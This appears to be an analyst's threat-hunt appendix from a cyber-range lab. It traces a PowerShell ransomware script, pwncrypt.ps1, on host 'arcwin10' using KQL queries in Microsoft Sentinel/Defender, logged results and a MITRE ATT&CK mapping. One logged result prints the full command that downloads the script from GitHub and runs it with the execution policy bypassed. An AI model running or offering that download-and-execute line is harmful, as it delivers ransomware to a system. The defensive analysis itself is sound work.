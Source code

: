 ### Project: PwnCrypt Ransomware Project Appendix

#### Summmary:
This threat hunt was performed in Microsfot Azure and Defender XDR for End-Point. Below you'll see tables used with Sentinel (SIEM), KQL commands, and MITRE ATT&CK® Framework Mapping.

#### Raw event tables used:

| Table Name           | Official Documentation                                                                   |
| :------------------- | :--------------------------------------------------------------------------------------- |
| `DeviceNetworkEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicenetworkevents) |
| `DeviceProcessEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceprocessevents) |
| `DeviceEvents`       | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceevents)       |
| `DeviceFileEvents`   | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicefileevents)   |

#### KQL Appendix:

#### Tracing PowerShell-Initiated pwncrypt.ps1 Download Connection
```kql
let target_device = "arcwin10";
DeviceNetworkEvents
| where DeviceName == target_device and Timestamp == datetime(2025-05-10T19:01:44.3886333Z)
| project Timestamp, ActionType, InitiatingProcessCommandLine, RemoteUrl, InitiatingProcessAccountName, InitiatingProcessFileSize
| where isnotempty( RemoteUrl)
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | ConnectionSuccess                                                  |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| RemoteUrl                   | hxxps://raw[.]githubusercontent[.]com                            |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessFileSize   | 455680                                                           |

#### Confirming `pwncrypt.ps1` Script Execution on `arcwin10`


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceProcessEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp,AccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, ProcessCommandLine, FileName, FileSize, AdditionalFields
| where InitiatingProcessFileName contains "powershell" and AccountName == "arcanalyst1"
| sort by Timestamp desc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| AccountName                 | arcanalyst1                                                      |
| InitiatingProcessFileName   | powershell.exe                                                   |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| ProcessCommandLine          | "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1 |
| FileName                    | cmd.exe                                                          |
| FileSize                    | 289792                                                           |
| AdditionalFields            | {"DesktopName":"Winsta0\\Default"}                               |

#### Verifying Full PowerShell Command Execution via DeviceEvents


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp, ActionType, InitiatingProcessSHA1, InitiatingProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName, AdditionalFields
| where ActionType contains "PowerShellCommand"
| sort by Timestamp asc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | PowerShellCommand                                                |
| InitiatingProcessSHA1       | 801262e122d6a2e758962896260d55bbd0136a                           |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessParentFileName| explorer.exe                                                    |
| AdditionalFields            | {"Command":"Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt[.]ps1' -OutFile 'C:\\programdata\\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\\programdata\\pwncrypt.ps1"} |

#### Tracing `pwncrypt.ps1` Ransomware File Renaming Activity

```kql
let target_device = "arcwin10";
DeviceFileEvents
| where DeviceName == target_device
| where ActionType == "FileRenamed" and FolderPath contains "pwncrypt"
| project Timestamp, ActionType, FileName, PreviousFolderPath, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```

Query Result:
| Timestamp           | ActionType  | FileName                                   | PreviousFolderPath               | InitiatingProcessAccountName | InitiatingProcessFileName |
| :------------------ | :---------- | :----------------------------------------- | :------------------------------- | :--------------------------- | :------------------------ |
| May 10, 2025 2:01:45 PM | FileRenamed | 3546_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6267_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6705_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4362_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 9982_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4489_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 8270_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 1130_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 4935_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 6642_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8762_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8357_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |

### MITRE ATT&CK Framework

* **Command and Control** (`TA0011`):
    * **Payload Delivery:** `pwncrypt.ps1` was downloaded from an external GitHub URL using PowerShell's `Invoke-WebRequest` (aligns with `T1105` - Ingress Tool Transfer, leveraging `T1071.001` - Application Layer Protocol: Web Protocols).

* **Execution** (`TA0002`):
    * **PowerShell Scripting:** The core malware `pwncrypt.ps1` was executed via `powershell.exe` (`T1059.001` - Command and Scripting Interpreter: PowerShell).
    * **Command Shell Invocation:** `cmd.exe` was used to launch the PowerShell process that ran `pwncrypt.ps1` (`T1059.003` - Command and Scripting Interpreter: Windows Command Shell).

* **Defense Evasion** (`TA0005`):
    * **Execution Policy Bypass:** The script was run with `powershell.exe -ExecutionPolicy Bypass` to circumvent script execution restrictions (a common aspect of abusing `T1059.001` - PowerShell for defense evasion).

* **Privilege Escalation** (`TA0004`):
    * **Indicated Capability:** Later file encryption activity was observed under the `SYSTEM` account, and VirusTotal associated this tactic with the malware's hash, suggesting `pwncrypt.ps1` has or attempts privilege escalation. (The specific technique used by `pwncrypt.ps1` for this wasn't detailed in the provided logs).

* **Discovery** (`TA0007`):
    * **File & Directory Discovery:** The script enumerated user files and directories to identify targets for encryption (aligns with `T1083` - File and Directory Discovery).

* **Impact** (`TA0040`):
    * **Data Encrypted for Impact:** Files were encrypted, renamed (e.g., with `_pwncrypt.csv` suffix), and ransom/decryption instructions were generated (`T1486`).
 
    * ## Created By:
- **Author Name**: Jorge Juarez
- **PowerShell script creator**: [Josh Madakor](https://joshmadakor.tech/)
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 12, 2025`  | `Jorge Juarez`   

